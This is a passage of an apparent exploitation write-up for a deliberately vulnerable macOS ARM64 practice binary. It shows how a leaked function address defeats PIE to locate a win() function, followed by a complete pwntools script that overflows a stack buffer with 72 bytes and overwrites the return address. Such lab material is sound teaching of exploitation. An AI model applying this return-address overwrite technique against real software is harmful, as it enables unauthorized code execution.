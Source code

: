 ```

### Calculate the address of win()

- The binary is PIE, using the leak of `leak_anchor()` function and knowing the offset of `win()` function from `leak_anchor()` function we can calculate the address of `win()` function.

```bash
objdump -d bof_macos | grep -E 'leak_anchor|win'

0000000100000460 <_leak_anchor>:
000000010000047c <_win>:
```
```
- The offset is `0x47c - 0x460 = 0x1c`

### Exploit

```python
#!/usr/bin/env python3
from pwn import *
import re
import os

# Load the binary
binary_name = './bof_macos'
# Start the process
p = process(binary_name)

# Read the address printed by the program
output = p.recvline().decode()
print(f"Received: {output.strip()}")

# Extract the leak_anchor() address using regex
match = re.search(r'LEAK \(leak_anchor\): (0x[0-9a-fA-F]+)', output)
if not match:
    print("Failed to extract leak_anchor() address")
    p.close()
    exit(1)
leak_anchor_address = int(match.group(1), 16)
print(f"Extracted leak_anchor() address: {hex(leak_anchor_address)}")

# Calculate win() address
win_address = leak_anchor_address + 0x1c
print(f"Calculated win() address: {hex(win_address)}")

# Offset calculation:
# Buffer starts at sp, return address at sp+0x40 (64 bytes)
# We need to fill 64 bytes, then overwrite the saved x29 (8 bytes), then x30 (8 bytes)
offset = 64 + 8  # 72 bytes total to reach the return address

# Craft the payload - ARM64 addresses are 8 bytes
payload = b'A' * offset + p64(win_address)
print(f"Payload length: {len(payload)}")

# Write the payload to /tmp/exploit.txt
with open("/tmp/exploit.txt", "wb") as f:
    f.write(payload)

print("[*] Payload written to /tmp/exploit.txt")

# Drop to an interactive session
p.interactive()
```
```
```
